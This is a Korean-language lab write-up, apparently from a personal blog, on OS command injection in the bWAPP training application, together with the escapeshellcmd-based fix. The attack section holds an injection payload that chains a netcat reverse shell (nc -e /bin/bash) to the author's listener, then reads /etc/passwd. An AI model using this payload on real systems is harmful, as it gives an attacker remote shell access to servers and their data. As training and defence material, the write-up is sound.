 ```yaml
---
title: "[bWAPP] 1. Injection - OS Command Injection"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## Command Injection

OS명령어를 입력하여 내부정보 유출 및 악의적인 행위를 수행

포트를 열고 포트서버에 연결하여 원격조정을 해보자

<br>

### 리눅스

![image-20220318005419095](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220318005419095.png)

- 포트 열고

<br>

### Bbox

![image-20220316020449205](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020449205.png)

`www.nsa.gov && nc -vn 172.30.1.31 8888 -e /bin/bash`

- 다음과 같이 입력
- -e /bin/bash 옵션은 shell을 이용해 상호작용하기 위함
- -e 는 exec의 약자로 뒤에 넣은 것 실행

<br>

### 리눅스

![image-20220316020541411](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020541411.png)

- 연결 확인

### 결과

![image-20220316020639739](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020639739.png)

- whoami, hostname, id 를 통해 서버에서 개인정보 확인 가능

![image-20220316020721761](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020721761.png)

- 또한, Bbox에서도 command 명령어와 cat 명령어 통해 /etc/passwd 디렉토리 정보 확인 가능

![image-20220316020903254](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020903254.png)

<br>

### Command 명령어

; 앞 명령어 실패와 상관없이 다음 명령어 실행

|| 앞 명령어 실패시 다음 명령어 실행(디렉토리 이동 시 사용)

| 앞 명령의 결과를 뒤 명령어에게 넘겨줌(more, awk, grep와 같이 사용)

&& 앞 명령어가 성공 시 다음 명령어 실행

& 앞 명령어를 백그라운드로 실행하고 다음 명령어 실행

<br>

<br>

## 대응방안

### Linux

![image-20220317225533437](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317225533437.png)

- vi 편집기를 통해 commandi.php 소스코드를 열어주면
- 레벨 1 = Medium 일 때 commandi_check_1 함수를 쓰고
- 레벨 2 = High 일 때 commindi_check_2 함수를 쓰는 것을 확인할 수 있다.

<br>

### functions_external.php

![image-20220317225732419](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317225732419.png)

- commandi_check_1 에서는 "&", ";" 문자들을 공백으로 대체해주고
- commnadi_check_2 에서는 escapeshellcmd 함수를 사용하여 보안을 적용하고 있다.
- escapeshellcmd : 
  - 인자로 받은 명령어가 실행되었을 때, 의도치 않았던 쉘 명령어가 실행되는 것을 방지하는 함수.
  - 메타캐릭터에 역슬래쉬를 붙여 명령어를 실행하지 못하게 한다.
